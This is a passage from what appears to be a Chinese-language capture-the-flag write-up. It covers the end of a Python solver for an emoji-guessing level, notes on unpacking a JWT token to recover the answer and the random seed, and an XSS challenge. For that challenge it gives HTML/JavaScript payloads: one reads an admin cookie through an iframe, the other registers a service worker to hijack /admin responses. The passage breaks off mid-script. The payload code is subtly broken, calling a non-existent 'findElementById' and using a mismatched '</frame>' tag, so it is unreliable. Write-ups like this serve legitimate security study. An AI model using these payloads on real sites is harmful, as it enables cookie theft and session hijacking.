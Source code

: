 ```python
        else:
            assert False

    done = True
    for i in range(64):
        done = done and mask[i]

    guess = list(emojis)[:64]

print(''.join(answer))
```
### Level 2

解包 JWT Token 之后发现 emoji 就在 Token 当中。

### Level 3

解包 JWT Token 之后发现随机数种子是 Token 的一部分，因此只要复用同一 token 就可以破解次数限制 + 保持答案恒定。

复用 Level 1 脚本即可。

## 9. 第三新XSS

### 巡猎

查阅 MDN 文档知，Cookie Path 可以通过嵌入 iframe 来破解。

```html
<html>
<head>
</head>
<body>
  <iframe id="victim" src="/admin"></frame>
  <script>
    setTimeout(function() {
      var victim = document.findElementById("victim");
      document.title = victim.contentDocument.cookie;
    }, 500);
  </script>
</body>
</html>
```

### 记忆

查看 XSSBot 逻辑之后可以发现它访问了我们给定的页面后，访问了 `/admin`，后者我们无法直接控制其内容。

因此，可以借助注册 Service Worker 功能直接在浏览器中改写响应。

```html
<html>
  <head>
    <title>AAAAAA</title>
  </head>
  <body>
    <script>
      const registerServiceWorker = async () => {
        if ("serviceWorker" in navigator) {
          try {
            const registration = await navigator.serviceWorker.register("/sw_v6/", {
              scope: "/admin",
            });
            if (registration.installing) {
              console.log("正在安装 Service worker");
            } else if (registration.waiting) {
```